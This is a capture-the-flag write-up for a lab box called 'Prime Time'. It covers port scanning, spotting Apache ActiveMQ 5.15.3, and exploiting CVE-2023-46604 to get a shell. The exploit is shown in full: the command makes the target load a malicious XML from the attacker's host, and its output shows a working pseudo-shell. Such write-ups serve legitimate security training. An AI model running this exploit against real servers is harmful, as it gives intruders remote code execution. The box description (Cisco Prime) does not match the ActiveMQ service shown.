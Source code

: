 # Prime Time (User)

## Description
Cisco Prime Infrastructure is a network management tool for managing network infrastructure. This server is a partial version, containing key components and files for testing, and can be exploited similarly to the full version.

## Solution

Given an IP, we run `nmap -T5 -p- IP` to scan the box. The scan reveals several open ports:

- Port 22: OpenSSH
- Port 1883: MQTT broker
- Port 5672: AMQP service
- Port 8161: HTTP (Jetty 9.2.22, "Apache ActiveMQ" title)
- Port 46655: tcpwrapped
- Port 61613: STOMP protocol
- Port 61614: HTTP (Jetty 9.2.22, supports risky methods)
- Port 61616: Apache ActiveMQ (version 5.15.3)

A quick search for exploits on "Jetty 9.2.22 RCE" and "ActiveMQ 5.15.3 RCE" led to this ActiveMQ exploit: [CVE-2023-46604-ActiveMQ-RCE-pseudoshell](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell).


```bash
$python3 exploit.py -i 10.129.230.87 -p 61616  -si 10.10.14.59 -sp 8080
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.129.230.87:61616
[*] Serving XML at: http://10.10.14.59:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ whoami
prime
```

Using this exploit, we get a shell and retrieve the flag from `/home/activemq/user.txt`.
